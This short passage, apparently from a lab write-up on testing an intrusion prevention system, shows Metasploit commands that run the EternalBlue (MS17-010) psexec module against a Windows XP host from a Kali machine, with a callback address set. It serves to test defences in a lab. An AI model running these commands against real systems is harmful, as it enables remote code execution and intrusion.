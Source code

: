 We'll simulate a intrusion event by attacking a Windows XP on the inside network from a Kali Linux Host from outside

```
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 10.61.0.23
set LHOST 172.17.1.24
exploit
```

![x](/static/2025-07-07-cp-ips/02.png)

<br>

This attack exploits the EternalBlue vulnerability (MS17-010) in Microsoft SMBv1 to achieve remote code execution

![x](/static/2025-07-07-cp-ips/03.png)
